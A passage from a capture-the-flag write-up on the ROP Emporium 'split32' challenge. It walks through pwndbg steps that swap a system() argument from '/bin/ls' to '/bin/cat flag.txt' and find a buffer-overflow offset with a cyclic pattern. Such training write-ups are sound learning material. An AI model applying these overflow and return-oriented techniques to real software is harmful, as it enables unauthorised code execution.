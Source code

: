 * the arguments for a 32-bit function call are pushed on the stack. At `usefulFunction+9`, we can see the argument for the system call being pushed onto the stack.
* Let's see what the argument is.

```
pwndbg> x/s 0x804870e
0x804870e:      "/bin/ls"
```

* We have to replace this argument with `/bin/cat flag.txt`.

### /bin/cat flag.txt

```
pwndbg> search /bin/cat
Searching for value: '/bin/cat'
split32         0x804a030 '/bin/cat flag.txt'
```

* We can link this string with our system call in order to read the `flag.txt` file.
* In this case we do not need a `pop rdi` gadget because as we saw the arguments are not stored in registers.

### Cyclic pattern

* We now have to find the offset using a cyclic pattern.

```
pwndbg> cyclic
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

* Let's provide this as input.

```
──────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────
*EAX  0xb
*EBX  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
*ECX  0xf7fae9b4 (_IO_stdfile_1_lock) ◂— 0x0
*EDX  0x1
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0xffffd104 —▸ 0xffffd231 ◂— '/home/kunal/ropEmporium/split32/split32'
*EBP  0x61616166 ('faaa')
*ESP  0xffffd030 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
*EIP  0x61616161 ('aaaa')
```

* The `ebp` register points to `0x61616166` which is the little endian `faaa` in ASCII.
* Let's find the offset of this value in our cyclic pattern.

```
pwndbg> cyclic -l 0x61616166
Finding cyclic pattern of 8 bytes: b'faaa' (hex: 0x61616166)
Found at offset 40
```
